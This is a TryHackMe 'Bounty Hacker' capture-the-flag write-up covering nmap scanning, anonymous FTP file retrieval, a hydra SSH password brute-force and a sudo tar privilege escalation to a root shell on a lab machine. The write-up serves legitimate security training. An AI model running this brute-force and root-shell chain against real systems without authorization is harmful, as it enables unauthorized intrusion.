 #+TITLE: TryHackMe - Bounty Hacker writeup

[https://tryhackme.com/room/cowboyhacker]

* Scanning & Enumeration

	#+begin_src shell
		nmap -p- -T4 -vv 10.10.97.111
		nmap -p 21,22,80 -sC -sV -vv 10.10.97.111

		PORT   STATE SERVICE REASON  VERSION
		21/tcp open  ftp     syn-ack vsftpd 3.0.3
				| ftp-anon: Anonymous FTP login allowed (FTP code 230)
				|_Can't get directory listing: TIMEOUT
		| ftp-syst:
		|   STAT:
		| FTP server status:
		|      Connected to ::ffff:10.9.2.83
		|      Logged in as ftp
		|      TYPE: ASCII
		|      No session bandwidth limit
		|      Session timeout in seconds is 300
		|      Control connection is plain text
		|      Data connections will be plain text
		|      At session startup, client count was 1
		|      vsFTPd 3.0.3 - secure, fast, stable
		|_End of status

		22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
		| ssh-hostkey:
		|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
		| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCgcwCtWTBLYfcPeyDkCNmq6mXb/qZExzWud7PuaWL38rUCUpDu6kvqKMLQRHX4H3vmnPE/YMkQIvmz4KUX4H/aXdw0sX5n9jrennTzkKb/zvqWNlT6zvJBWDDwjv5g9d34cMkE9fUlnn2gbczsmaK6Zo337F40ez1iwU0B39e5XOqhC37vJuqfej6c/C4o5FcYgRqktS/kdcbcm7FJ+fHH9xmUkiGIpvcJu+E4ZMtMQm4bFMTJ58bexLszN0rUn17d2K4+lHsITPVnIxdn9hSc3UomDrWWg+hWknWDcGpzXrQjCajO395PlZ0SBNDdN+B14E0m6lRY9GlyCD9hvwwB
		|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
		| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMCu8L8U5da2RnlmmnGLtYtOy0Km3tMKLqm4dDG+CraYh7kgzgSVNdAjCOSfh3lIq9zdwajW+1q9kbbICVb07ZQ=
		|   256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
		|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICqmJn+c7Fx6s0k8SCxAJAoJB7pS/RRtWjkaeDftreFw

		80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
		| http-methods:
		|_  Supported Methods: POST OPTIONS GET HEAD
		|_http-server-header: Apache/2.4.18 (Ubuntu)
		|_http-title: Site doesn't have a title (text/html).
				Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
	#+end_src

* Enumerating services

** FTP

	 #+begin_src shell
		 ftp 10.10.97.111

		 Connected to 10.10.97.111.
		 220 (vsFTPd 3.0.3)
		 Name (10.10.97.111:kali): anonymous
		 230 Login successful.
		 Remote system type is UNIX.
		 Using binary mode to transfer files.

		 ftp> dir
		 200 PORT command successful. Consider using PASV.
		 150 Here comes the directory listing.
		 -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
		 -rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
		 226 Directory send OK.
	 #+end_src

	 Found two files: locks.txt and task.txt.

	 #+begin_src shell
		 cat task.txt
		 1.) Protect Vicious.
		 2.) Plan for Red Eye pickup on the moon.

		 -lin
	 #+end_src

** HTTP

	 #+begin_src shell
		 dirsearch -u http://10.10.97.111 -r -w /usr/share/wordlists/dirb/common.txt
	 #+end_src

	 Enumerating hidden folders with dirsearch doesn't pick anything interesting.

* Gain access & user flag

	 After looking into the files gathered from the FTP, we have a username from the 'task.txt' file, and a list of... passwords? from 'locks.txt'.

	 The target has an SSH service. Let's try to brute force our way into it!

	#+begin_src shell
		hydra -l lin -P locks.txt 10.10.97.111 -t 4 ssh

		[DATA] attacking ssh://10.10.97.111:22/
		[22][ssh] host: 10.10.97.111   login: lin   password: xxxxxxxxxxxxxxxxxx
		1 of 1 target successfully completed, 1 valid password found
	#+end_src

	Sure enough, one of the locks is the password. Log into SSH and get the user flag.

	#+begin_src shell
		ssh lin@10.10.97.111
		cat user.txt
	#+end_src

* Privelege escalation & root flag

	#+begin_src shell
		lin@bountyhacker:~/Desktop$ sudo -l
		[sudo] password for lin:

		User lin may run the following commands on bountyhacker:
		(root) /bin/tar
	#+end_src

	[https://gtfobins.github.io/gtfobins/tar/#sudo]

	#+begin_src shell
		sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

		root@bountyhacker:~/Desktop# id
		uid=0(root) gid=0(root) groups=0(root)

		cat /root/root.txt
	#+end_src
